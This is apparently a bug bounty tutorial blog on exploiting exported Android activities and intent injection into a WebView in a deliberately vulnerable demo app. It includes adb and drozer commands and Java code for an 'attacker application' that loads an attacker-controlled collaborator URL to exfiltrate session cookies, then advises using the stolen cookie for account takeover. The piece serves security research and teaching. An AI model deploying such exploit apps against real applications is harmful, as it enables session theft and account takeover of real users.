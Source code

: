 ```yaml
---
title: One Approach towards Android Bug Bounty
author: nirajkharel
date: 2025-01-01 14:10:00 +0800
categories: [Mobile Pentesting, Android]
tags: [Mobile Pentesting, Android]
render_with_liquid: false
---
```



Last month, I explored bug bounties on Android applications and discovered a couple of issues related to Exported Activities and Intent Injections. These vulnerabilities were either unreported or reported in a way that underestimated their impact, categorizing them as low severity or informational.

In this blog, I aim to share insights into different methods for identifying such issues and strategies to escalate their impact to High or Critical severity. Please note that this is not the only approach but rather one specific type of vulnerability I focused on during my tests.

So What is Exported Activity? Intent Injection? Insecure WebView? Account Takeover?

I am not going to describe what an activity is but Android application is designed to be sandboxed and so its activities. Unless exported, activities of one particular application cannot be accessed by any other application on the device.

Activities are not exported by default, but there are multiple ways for an activity to be exported. One being **"exported=true"** and another being **"\<intent-filter\>"**. On the activity where intent filter has been defined, its exported by default unless the **"exported=false"** has been defined. Most of the times, the static analyser or tools that we use only covers the **"exported=true"** part and you might want to check the intent filter manually while you go through the Android Manifest file.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-1.png">

One approach of identifying exported activities is manual as defined earlier and next one can be through a drozer through the drozer.

Observe that two activities are exported on the application.

```bash
dz> run app.activity.info -a com.root3d.intentinjection
Attempting to run shell module
Package: com.root3d.intentinjection
  com.root3d.intentinjection.MainActivity
    Permission: null
  com.root3d.intentinjection.PrivacyPolicy
    Permission: null
```

So what does an exported activity means? It means that it can be accessed by any other application. Is it vulnerable right now? may be, may not be. But if you reported this as an issue, it will probably led to either informative/NA or Low if you are lucky.

So how can you leverage the impact for this? Navigate to the corresponding activity, on this case, **PrivacyPolicy**. 
<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-2.png">

Here comes the intent injection to open redirection part. But how?

As you read about the open redirection on the mobile application, it surely means that its an webapplication/website based attack or vulnerability. How how can this be possible on the mobile application. This means we need to check if the web URL or the web application has been referenced or integrated into the mobile application which is done through the almighty **webview**. So always look if the webview has been implemented. You can either search for the webview keyword or see if it has been initialised as we see on the **highlight-1**.

```java
private WebView webview;

// Or,
webview.loadUrl();
```

Lets skip the highlight-2 and highlight-3 for a timebeing and jump into 4 and 6. There you can see that it checks for the extra string parameter. What does **intent.getStringExtra** means? It means while the activity is called or triggered, it also looks if any other extra parameters or value has been passed on it in-exact the parameter named as **privacy-url**. 

The highlight-6 shows that it checks if the privacy-url is provided while calling the activity and if that contains any string character or not. If yes, it calls the **webview.loadUrl()** function with the **privacy-url** as the parameter. Why does it do so? Does it happens often? It might not be simple as it has been shown on the vulnerable application but there would be many instances on the activity where it requires extra parameter, generally while loading the privacy policies, terms and conditions and oauth-url as well.

So we know that it takes extra parameter and loads the webview as per we pass it as an intent. So why not load the arbitrary URL into it.

Use the below ADB command:

But what happens if you directly trigger the activity without passing any extra parameters? It will work as intended and would open the legitimate URL.
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy
```

Execute the same above command with the extra string as mentioned below and see if you can load arbitrary URL
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy --es privacy-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-3.png">


See now you have successfully performed open redirection on the mobile application. But what happends when you submit this issue for your bounties. Nothing much as adb can access any private activity on the mobile application and also you have rooted your device right?

Example, we do have additional one activity called **HomeActivitycom.root3d.intentinjection.HomeActivity** but it has not been exported. Let's try if we can load the arbitrary URL into that activity using adb.

```bash
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.HomeActivity --es blog-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-4.png">

Was that vulnerable? May be, you can report it mentioning that the URL validation has not been performed. Will you get the bounties? I would have given you, but they, no.

You need to do proper exploitation inorder to be it a valid and you cannot exploit this issue until there is something like Intent Redirection vulnerability.

So never just collect the activity and execute the adb command, see, analyse and then only report if that is exported.

Lets forget this HomeActivity part and focus on the PrivacyPolicy one. So before your andreline rush to submit the report, we need to be able to explain them that any other application would be able to load the URL into their application. Until then our issue would not be applicable as they would not accept the issue if you need a physical access into the device and for adb to be able to execute, you would need.

So, lets develop an android application i.e. attacker application. What does this below code do?

Its a simple application which opens the vulnerable activity and will send an extra intent as privacy-url to load "https://google.com" into that activity.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://google.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

You can create an empty activity on your Android studion and paste this code. Replace the package name and activity name with the vulnerable one and pass the accepted parameter. You should be able to perform an open redirection to the vulnerable app through this app once executed.

The code block `intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);` might be needed sometime as while executing the attacker application, instead of loading the arbitrary URL into the vulnerable application, sometimes it loads to the current attacker application. So it launches the activity in a new task separate from the current task.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-5.png">    


Until now they would treat this issue as Low or Medium because its just an open redirection. 

It might be the good idea to report until now if you have no option to login or register into the application. Example if the application needs a valid government document of hulululu country. 

But if incase you can login or register into the application and it any of the activity is vulnerable to intent injection to open redirection, you can probably exfiltrate the session cookie of the user through the vulnerable application. Why? Because it sends a GET request to the arbitrary URL with the session cookie on the request header and believe me, most of the application do. To restrict the application to send the session cookie along it needs to load the URL using this method **loadUrlWithoutCookies(view, url);** which is hardly implemented on the application.

So instead of loading your fancy portfolio into the webview. You can develop the android application as per below to send the session cookie into your controlled domain. For example Burp Collaborator.

This code is similar as above but just the modification on the URL.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://f1hsbzbz62ixdg783ucnuwu2jtpkda1z.oastify.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

Now the attacker application that you have created can exfiltrate the session cookie and then you can now use that session cookie as a victim user.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="../assets/img/images/android-bug-6.png">  

But do not just end here because you haven't done anything with the session cookie, go through the application source code, identify the API endpoints like for example **/delete/users** **/update/profile** **/update/email** **/api/profile** and try to provide an impact on the Confidentialy, Integrity and Availability as well. Check if you can get the profile details, check if you can modify the user details like email address, mobile numbers, and also check if you can delete the current user by using the session cookie.

On this way you can have the maximum impact on the application.

Please note that the blogs has been paraphrased using ChatGPT. Why? I would like to write another blog on the time that I adjust my grammar.